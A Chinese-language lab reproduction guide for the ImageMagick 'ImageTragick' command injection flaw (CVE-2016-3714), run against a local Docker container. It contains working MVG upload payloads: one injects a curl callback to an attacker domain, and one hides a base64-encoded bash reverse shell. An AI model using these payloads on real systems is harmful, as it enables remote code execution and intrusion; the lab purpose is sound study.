



# Imagemagick 命令执行漏洞 CVE-2016–3714

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

参考链接：

- [https://imagetragick.com](https://imagetragick.com/)
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## 环境搭建

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: your-ip:8080
Content-Length: 321
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGqvKmZLh7bp9gMc1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8


------WebKitFormBoundaryGqvKmZLh7bp9gMc1
Content-Disposition: form-data; name="file_upload"; filename="avatar.jpg"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.your-domain.cn:2333)'
pop graphic-context
------WebKitFormBoundaryGqvKmZLh7bp9gMc1--
```



`www.your-domain.cn`监听2333端口。可见，2333端口已经接收到http请求，说明curl命令执行成功：



反弹shell（只能使用`/bin/bash`反弹，不能使用`bash`反弹）：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQzLjIzNy42MS8yMzMzIDA+JjEK | base64 -d | bash`"||id " )'
pop graphic-context
```

监听2333端口，接收反弹shell：



